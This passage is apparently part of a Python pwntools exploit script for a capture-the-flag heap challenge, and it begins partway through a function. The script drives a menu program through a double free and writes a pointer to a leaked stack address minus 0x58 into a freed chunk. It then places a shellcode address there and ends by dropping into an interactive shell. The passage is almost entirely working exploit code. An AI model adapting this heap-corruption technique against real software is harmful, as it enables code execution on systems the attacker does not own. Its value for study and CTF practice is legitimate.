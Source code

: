 ```python
        s.sendline("2")
        log.info("2\n")
        print s.recv(1024)
        print s.recv(1024)
        log.info("2.list again Loaded for double free..")
        s.sendline("2")
        print s.recvuntil(":")
        s.sendline("1")
        log.info("1\n")
        print s.recv(1024)
        print s.recv(1024)
        
def list():
    log.info("3.list Loaded..")
    s.sendline("3")
    print s.recvuntil(":")
 
def modify():
    log.info("4.modify Loaded..")
    s.sendline("4")
    print s.recvuntil(":")
    s.sendline("1")
    log.info("1\n")
    print s.recvuntil(":")
    s.sendline(p64(stack-0x58))
    
def exit():
    log.info("5.exit Loaded..")
    s.sendline("5")
 
def exp():
    log.info("1.malloc Loaded to exploit :<")
    s.sendline("1")
    print s.recvuntil(":")
    s.sendline("32")
    log.info("32\n")
    print s.recvuntil(":")
    s.sendline("A"*32)
    log.info("A*32")
    s.recv(1024)
    s.recv(1024)
    log.info("1.malloc Loaded to exploit :<")
    s.sendline("1")
    print s.recvuntil(":")
    s.sendline("49")
    log.info("49\n")
    print s.recvuntil(":")
    s.sendline("A"*24+p64(shellcode))
 
s.recvuntil(":")
stack=int(s.recvuntil("\n"),16)
#print("stack address : "+ stack)
print s.recv(1024)
sleep(1)
malloc() # allocate 1st, 2nd memory chunk with size 32
free()  # free 2nd, 1st
modify() # stack-0x58 insert
exp()
s.interactive()
```
